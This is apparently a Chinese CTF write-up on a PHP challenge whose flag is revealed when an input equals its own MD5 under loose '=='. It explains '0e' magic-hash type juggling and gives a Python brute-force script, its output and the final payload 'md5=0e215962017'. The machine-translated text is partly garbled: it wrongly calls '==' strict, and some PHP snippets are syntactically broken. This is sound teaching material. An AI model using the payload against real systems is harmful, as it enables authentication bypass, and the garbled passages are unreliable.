


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们点击`Source Code`可以直接看到php主要逻辑代码：

```php
<?php

require('flag.php');
if (isset($_GET['src']))=
   highlight_file(__FILE__) and die();
if (isset($_GET['md5']))
{
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "Wonderbubulous! Flag is ".$flag;
   else
       echo "Nah... '",htmlspecialchars($md5),"' not the same as ",md5($md5);
}
?>
```

3.我们可以得到标志的唯一方法是传递字符串，该MD5哈希与字符串本身完全相同。因为这样的字符串不存在（或者我不知道），我们必须找到另一个解决方案。

解决这个挑战的唯一方法是利用PHP类型`$md5与md5($md5)`使用`==`严格比较运算符进行比较`===`。

最简单的方法是提供一个以`0eMD5`开头的数字开始的数字，`0e`并且只包含数字。

那是因为这样的比较会返回true：

```php
// test.php
<？php
echo  intval（ ' 0e123 '  ==  ' 0e999 '）; //结果1，表示TRUE
echo  “ \ n ” ;
echo  intval（ ' 0e123 '  ===  ' 0e999 '）; //结果0，这意味着FALSE
echo  “ \ n ” ;
```
以上脚本的结果将是：

```php
bl4de:~ $ php -e test.php
1
0
```

正如我们所看到的，与==返回的比较true。

所以我们必须从一开始就找到一个数字，从0e哪个MD5哈希将只包含数字（字符串和它的MD5哈希必须是用科学记数法键入的数字）0e开始; 数字以外的任何符号都会导致其中一个符号不能被转换为数字和条件返回false）。

我面对这一挑战的方法是使用简单的暴力。我已经创建了Python脚本，它将递增的数字0e作为前缀进行迭代，计算它的MD5哈希值，并检查哈希是否以0e后面的数字开头。

```python
#!/usr/bin/env python
import hashlib
import re

prefix = '0e'


def breakit():
    iters = 0
    while 1:
        s = prefix + str(iters)
        hashed_s = hashlib.md5(s).hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print "[+] found! md5( {} ) ---> {}".format(s, hashed_s)
            print "[+] in {} iterations".format(iters)
            exit(0)

        if iters % 1000000 == 0:
            print "[+] current value: {}       {} iterations, continue...".format(s, iters)

breakit()
```

```python
[+] current value: 0e196999999       197000000 iterations, continue...
[+] current value: 0e197999999       198000000 iterations, continue...
[+] current value: 0e198999999       199000000 iterations, continue...
[+] current value: 0e199999999       200000000 iterations, continue...
[+] current value: 0e200999999       201000000 iterations, continue...
[+] current value: 0e201999999       202000000 iterations, continue...
[+] current value: 0e202999999       203000000 iterations, continue...
[+] current value: 0e203999999       204000000 iterations, continue...
[+] current value: 0e204999999       205000000 iterations, continue...
[+] current value: 0e205999999       206000000 iterations, continue...
[+] current value: 0e206999999       207000000 iterations, continue...
[+] current value: 0e207999999       208000000 iterations, continue...
[+] current value: 0e208999999       209000000 iterations, continue...
[+] current value: 0e209999999       210000000 iterations, continue...
[+] current value: 0e210999999       211000000 iterations, continue...
[+] current value: 0e211999999       212000000 iterations, continue...
[+] current value: 0e212999999       213000000 iterations, continue...
[+] current value: 0e213999999       214000000 iterations, continue...
[+] current value: 0e214999999       215000000 iterations, continue...
[+] found! md5( 0e215962017 ) ---> 0e291242476940776845150308577824
[+] in 215962018 iterations
```

4.所以构造payload：`md5=0e215962017`

获取flag



